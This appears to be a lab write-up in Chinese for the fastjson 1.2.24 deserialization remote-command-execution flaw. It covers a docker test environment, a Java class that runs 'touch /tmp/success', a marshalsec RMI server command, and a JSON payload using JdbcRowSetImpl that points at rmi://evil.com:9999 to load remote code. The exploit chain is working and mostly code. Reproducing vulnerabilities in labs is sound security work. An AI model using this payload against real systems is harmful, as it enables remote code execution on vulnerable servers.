 # fastjson 1.2.24 反序列化导致任意命令执行漏洞



fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- http://aaatest.com/vuls/208339.html
- [http://aaatest.com/2017/04/29/title- fastjson 远程反序列化poc的构造和分析/](http://aaatest.com/2017/04/29/title- fastjson 远程反序列化poc的构造和分析/)

## 漏洞环境



运行测试环境：

```
docker compose up -d
```



环境运行后，访问`http://aaatest.com-ip:8090`即可看到JSON格式的输出。

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://aaatest.com-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```



## 漏洞复现



因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://aaatest.com/TouchFile.class`：

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```



然后我们借助[marshalsec](http://aaatest.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://aaatest.com/#TouchFile" 9999
```



向靶场服务器发送Payload，带上RMI的地址：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```



可见，命令`touch /tmp/success`已成功执行：

[![img](http://aaatest.com/vulhub/vulhub/raw/master/fastjson/1.2.24-rce/1.png)](http://aaatest.com/vulhub/vulhub/blob/master/fastjson/1.2.24-rce/1.png)